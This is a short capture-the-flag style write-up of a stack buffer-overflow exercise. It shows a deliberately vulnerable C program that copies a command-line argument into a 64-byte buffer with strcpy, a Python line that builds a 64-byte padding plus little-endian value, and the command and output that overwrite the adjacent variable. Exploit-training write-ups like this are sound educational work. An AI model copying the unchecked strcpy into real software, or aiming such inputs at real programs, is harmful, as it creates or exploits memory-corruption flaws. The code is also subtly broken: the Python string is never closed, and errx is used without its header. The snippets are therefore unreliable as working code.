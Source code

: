 # Stack 1

Stack 1 source
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```
This program does not take stdin, so cannot be piped to. Requires commandline argument instead.

Instead of manually crafting an input argument, I created one using python.
```python
print("A"*64 + "\x64\x63\x62\x61)
```
Output
```shell
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
```

Shell command
```shell
./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
```

Output
```shell
you have correctly got the variable to the right value
```

This was another simple buffer overflow, but this time the value to write must be crafted carefully. Order of byte writing is emphasized, teaching the concept of little endian representation.

